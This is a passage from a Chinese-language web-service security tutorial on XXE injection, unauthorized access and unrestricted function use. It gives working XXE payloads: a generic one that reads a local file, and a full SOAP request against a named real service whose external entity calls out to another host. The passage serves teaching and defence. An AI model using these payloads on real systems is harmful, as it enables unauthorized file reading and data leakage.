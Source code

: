 **5.1.4 XXE注入漏洞**

XXE（XML External Entiry Injection，XML外部实体注入）漏洞是在对非安全的外部实体数据进行处理时所引发的安全问题。实体是XML文档结构中定义的一个概念，可以通过预定义在文档中调用。利用XML提供的实体特性，攻击者可以使用XXE漏洞读取本地文件。

XXE注入漏洞中，发往服务器的XML载荷如下所示：



```
&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;
&lt;!DOCTYPE foo [
&lt;!ELEMENT foo ANY &gt;
&lt;!ENTITY xxe SYSTEM "file:///dev/random" &gt;]&gt;&lt;foo&gt;&amp;xxe;&lt;/foo&gt;
```

我们以 “QIWI.ru”网站的SOAP型Web Service为例，分析其中的XXE漏洞（该漏洞由某位安全研究人员发现，具体研究报告可以参考此处资料）。

攻击者发往“https://send.qiwi.ru/soapserver”地址的载荷为：



```
POST /soapserver/ HTTP/1.1
Host: send.qiwi.ru
Content-Type: application/x-www-form-urlencoded
Content-Length: 254
&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE aa[&lt;!ELEMENT bb ANY&gt;&lt;!ENTITY xxe SYSTEM "https://bitquark.co.uk/?xxe"&gt;]&gt;
&lt;SOAP-ENV:Envelope&gt;
&lt;SOAP-ENV:Body&gt;
&lt;getStatus&gt;
&lt;id&gt;&amp;xxe;&lt;/id&gt;
&lt;/getStatus&gt;
&lt;/SOAP-ENV:Body&gt;
&lt;/SOAP-ENV:Envelope&gt;
```

关于XXE漏洞的更多信息，读者可以参考这里的相关资料。

**5.2 Web Service中的控制问题**

**5.2.1 未授权访问冲突**

当我们统计渗透测试的结果时，我们会发现未授权访问漏洞在Web Service中非常常见。主要的原因在于开发人员不认为未授权用户是攻击者，且理所当然认为Web Service是一个足够安全的环境。

为了避免这类漏洞存在，发往服务器的请求中必须包含令牌值或令牌信息（如用户名及密码信息）。

此外，与Web Service有关的所有函数都应该要求请求报文中包含用户会话信息。

**5.2.2 未限制函数使用范围**

Web Service中常见的一个问题就是不对函数的使用范围进行限制。这会导致以下问题存在：

1、暴力破解攻击

2、填充篡改数据库

3、滥用服务器赋予用户的权限

4、消耗服务器资源造成DDoS攻击
